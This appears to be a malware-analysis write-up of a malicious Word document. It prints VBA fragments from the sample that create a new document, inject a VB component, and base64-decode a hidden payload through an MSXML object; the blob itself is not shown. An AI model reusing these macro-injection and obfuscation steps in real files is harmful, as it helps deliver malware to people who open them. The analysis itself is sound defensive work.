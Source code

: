 At the time of writing, only 5 AV engines detect this file as malicious:

![](/img/1533777230141.png)

### Presentation / Lure

This document is just a blank document, so nothing to lure the user, no
pretense.

## VBA

### Raw

The VBA in this document actually interfaces with Word to create a new
document, put VBA into it, and then call the `AutoOpen` function from
it. We'll walk through the interesting blocks.

Inside the `DocumentOpen` function, first it creates two strings.
`comStr` is a large base64-encoded blob. `chckT` is "bin"



        comStr = s01

        chckT = "bi"
        chckT = chckT + "n."



Next, it uses `GetObject` to get a reference to MicrosoftWord, and then
adds a new item. `merrFolder` will be something like "Document1", or a
higher number if there are already other unsaved documents open. It also
adds a VB component to the document.



        Set errDesktop = GetObject("new:000209FF-0000-0000-C000-000000000046")
        Set merrFolder = errDesktop.Documents.Add
        merrFolder.ActiveWindow.Visible = True
        Set objectFile = merrFolder.VBProject.VBComponents.Add(1)



Next it does a similar bit with MSXML, getting an object, creating an
element. Then it calls a function, `firstDe`, passing in the
base64-encoded blob and the MSXML object:



        Set gtypeDesktop = GetObject("new:2933BF90-7B36-11D2-B20E-00C04F983E60")
        Set mlngCode = gtypeDesktop.createElement("merrFound")
        comStr = firstDe(comStr, mlngCode)



`firstDe` uses MSXML's `StrConv` function to base64-decode the blog and
return it:



    Function firstDe(comStr, mlngCode)
        mlngCode.DataType = "bin.base64"
        mlngCode.Text = comStr
        blnCurrent = mlngCode.NodeTypedValue
        firstDe = StrConv(blnCurrent, vbUnicode)
    End Function

